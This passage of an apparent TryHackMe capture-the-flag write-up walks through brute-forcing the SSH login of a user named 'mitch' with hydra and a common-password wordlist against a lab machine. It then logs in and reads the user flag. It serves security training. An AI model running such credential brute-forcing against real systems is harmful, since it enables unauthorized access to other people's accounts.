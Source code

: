 ```bash

``` 

When we open the file we get another bit of information, Mitch seems to have a very bad habit of using weak passwords.

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```
So lets attempt to crack it, shall we? Since we know **mitch** is probably a valid username, let's try to crack the SSH login with **hydra**.

```bash
┌──(tzero86㉿tzbox)-[~/Documents/THM/easyCTF]
└─$ hydra -l mitch -P "/usr/share/seclists/Passwords/Common-Credentials/best110.txt" -e nsr -s 2222 -o "/home/kali/Documents/THM/easyCTF/results/10.10.251.248/scans/tcp_2222_ssh_hydra.txt" ssh://10.10.49.87
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-21 13:04:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 113 login tries (l:1/p:113), ~8 tries per task
[DATA] attacking ssh://10.10.49.87:2222/
[2222][ssh] host: 10.10.49.87   login: mitch   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-21 13:05:22
```
There we go, we have a user and pass to connect to SSH. With this we can answer the following room questions:

> Question #5 What's the password?

> Question #6 Where can you login with the details obtained?

Let's check the SSH login out:

```bash
┌──(tzero86㉿tzbox)-[~/Documents/THM/easyCTF]
└─$ ssh mitch@10.10.49.87 -p 2222                                                                                              255 ⨯
The authenticity of host '[10.10.49.87]:2222 ([10.10.49.87]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.49.87]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.49.87's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
{User_flag_value_here}
$ cd ..
$ ls
mitch  sunbath
$ 
```